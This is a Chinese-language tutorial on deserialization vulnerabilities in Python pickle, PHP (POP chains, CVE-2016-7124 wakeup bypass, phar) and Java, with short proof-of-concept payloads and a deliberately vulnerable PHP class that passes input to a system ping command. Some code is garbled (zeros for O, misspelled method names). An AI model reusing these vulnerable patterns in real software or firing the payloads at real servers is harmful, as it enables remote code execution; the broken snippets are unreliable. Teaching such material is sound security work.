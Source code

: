 ## 关于序列化与反序列化

**漏洞简介**
序列化:把对象转换为字节序列的过程，即把对象转换为可以存储或传输的数据的过程。例如将内存中的对象转换为二进制数据流或文件，在网络传输过程中，可以是字节或是XML等格式
反序列化:把字节序列恢复为对象的过程，即把可以存储或传输的数据转换为对象的过程。例如将二进制数据流或文件加载到内存中还原为对象

**漏洞原理**
在Python和PHP中，一般通过构造一个包含魔术方法(在发生特定事件或场景时被自动调用的函数，通常是构造函数或析构函数)的类，然后在魔术方法中调用命令执行或代码执行函数，接着实例化这个类的一个对象并将该对象序列化后传递给程序，当程序反序列化该对象时触发魔术方法从而执行命令或代码。

**python**

python中最出名的反序列化函数莫过于pickle。
Python 提供两个模块来实现序列化:cPickle 和 pickle.这两个模块功能是一样的,区别在于 cPickle 是(语言写的,速度快;pickle 是纯 Python 写的,速度慢.在 Python3 中已经没有 cPickle 模块，所以在现在这个环境下我们基本不用考虑cPickle，另外，这两者的接口和功效均是一致的，所以有不需要特殊区别对待.pickle 有如下四种操作方法:

```
dump：对象反序列化到文件对象并存入文件
dumps：对象反序列化为 bytes 对象
load：对象反序列化并从文件中读取数据
loads：从 bytes 对象反序列化
```

这是一个pickle的反序列化的案例：

```python
import os
import pickle
class Demo(object):
    def __init__(self, shell):
        self.shell = shell
    def __reduce__(self):
        return(os.system,(self.shell,))
demo = Demo('whoami')
dada = pickle.dumps(demo)
print("qiangqiang") #传输
pickle.loads(dada)
```

漏洞产生的原因在于其可以将自定义的类进行序列化和反序列化,反序列化后产生的对象会在结束时自动触发__reduce__()函数从而触发恶意代码.

这个reduce函数的解释：https://docs.python.org/zh-cn/3/library/pickle.html#what-can-be-pickled-and-unpickled

这是pickle函数的解释：https://blog.csdn.net/weixin_43610673/article/details/124889988

PHP

php里面的魔法函数就很多:

![image-20240226174058153](https://raw.githubusercontent.com/ljqalex/image/main/image-20240226174058153.png)

所谓的php反序列化漏洞挖掘，或者说php反序列化POP链挖掘。
无非就是检查已经存在的类中，是否有某个类A，该类的魔术方法中是否有可以利用的点(直接就是最简单的反序列化)，如果没有可利用的点，检查该类的魔术方法中是否可以引入其他类B，然后继续检查类B的魔术方法中，是否有可以利用的点，不断循环(挖掘POP链)

**source点**

```
serialize() //将一个对象转换成一个字符串
unserialize() //将字符串还原成一个对象
```

案例：

```php
<?php
class test
{
	private $flag ="flag{233}";
	public $a = "aaa";
	static $b ="bbb";
}
$test = new test;
$data=serialize($test);
echo $data;
?>
    
输出结果：
O:4:"test":2:{s:10:"testflag";s:9:"flag{233}";s:1:"a";s:3:"aaa";}
```

php pop链挖掘通法
source点 --> unserialize函数
sink点 --> 某个类的魔术方法中存在调用风险函数(system、exec、popen、file_get_contents、file_put_contents等等)

排查传播链(pop链)
案例讲解：

```php
<?php
error_reporting(0);
include "flag.php";
$KEY = "DOg3!!!";
$str = $_GET['str'];
if(unserialize($str) === "$KEY")
{
	echo "$flag";
}

show_source(__FILE__);// http://127.0.0.1/?str=s:7:%22D0g3!!!%22
//payload = serialize("D0g3!!!")
```

反序列化接收到的str，如果等于字符串 "DOg3!!" 就返回flag

那么很简单，我们序列化一下就好了

这是稍微高级点的案例：

![image-20240227095940410](https://raw.githubusercontent.com/ljqalex/image/main/image-20240227095940410.png)

poc：

```php
<?php
class home
{
private $method = "ping";
private $args = array('1 l whoami');
}
echo serialize(new home());
?>
```

小trick(CVE-2016-7124)
然后网上讲php反序列化特别喜欢提的，就是php有个cve(CVE-2016-7124)，就是当反序列化后的字符串中标识的成员属性数，大于实际的属性数时，会导致_wakeup方法不执行

比如这个案例：

```php
<?php
class home{
    private $method;
    private $args;
    function __construct($method,$args) {
    $this->method = $method;
    $this->args = $args;
}
function _destruct(){
    if (in_array($this->method,array("ping"))) {
        call_user_func_array(array($this,$this->method),$this->args);
    }
}
function ping($host){
system( "ping -c 2 $host");
}
function __wakeup(){
$this->args=array( "127.0.0.1");
}
}
$a=@$_GET['a'];
@unserialize($a);?>
?>
```

如果再用刚才的payload构造方式去打，已经不行了，因为wakeup里面已经将args重新赋值了，我们没办法进行利用，完成命令拼接来RCE。
这个时候就要考虑用CVE-2016-7124，就需要看php版本。

phar反序列化
phar反序列化就是可以在不使用php函数unserialize的前提下，进行反序列化，从而引起的严重的php对象注入漏洞
原理
漏洞触发点在使用 phar://协议读取文件的时候，文件内容会被解析成phar对象，然后phar对象内的Metadata信息会被反序列化。当内核调用phar_parse_metadata()解析metadata数据时，会调用php_var_unserialize()对其进行反序列化操作，因此会造成反序列化漏洞。

**利用条件**

```
phar文件要能够上传到服务器端

要有可用的魔术方法作为“跳板”

文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
```

参考文档：https://www.cnblogs.com/nice0e3/p/15395744.html

​					https://www.freebuf.com/articles/web/247930.html

java反序列化：

有一篇文章写的很详细了：

https://dyfloveslife.github.io/2020/03/21/Serialization-and-Deserialization-in-Java/

简单讲，java中的序列化、反序列化，就是用了两个主要方法:
**SerializationTest.java**
这里我们将代码进行了封装，将序列化功能封装进了 serialize这个方法里面，在序列化当中，我们通过这个 File0utputStream 输出流对象，将序列化的对象输出到 ser.bin 当中。再调用 oos 的 write0bject 方法，将对象进行序列化操作。

```java
ObjectOutputStream oos =new 0bjectOutputStream(new1File0utputStream("ser.bin"));
oos.write0bject(obj);
```

**UnserializeTest.java**
进行反序列化

```java
ObjectInputStream ois = new ObjectInputStream(newFileInputStream(Filename));
Object obj = ois.readObject();
```

**与php的不同点**
与php的不同点就是，java的反序列化中，或者说java的类，没有php那么多的魔术方法。但是java的反序列化时，使用的readObject方法是可以重写的，所有的iava反序列化漏洞，也是出于这个重写的时候出现的问题。

两篇写的比较好的文章：

https://www.freebuf.com/articles/web/333697.html

https://xz.aliyun.com/t/6787

这里已经是java反序列化漏洞的所有理论知识了
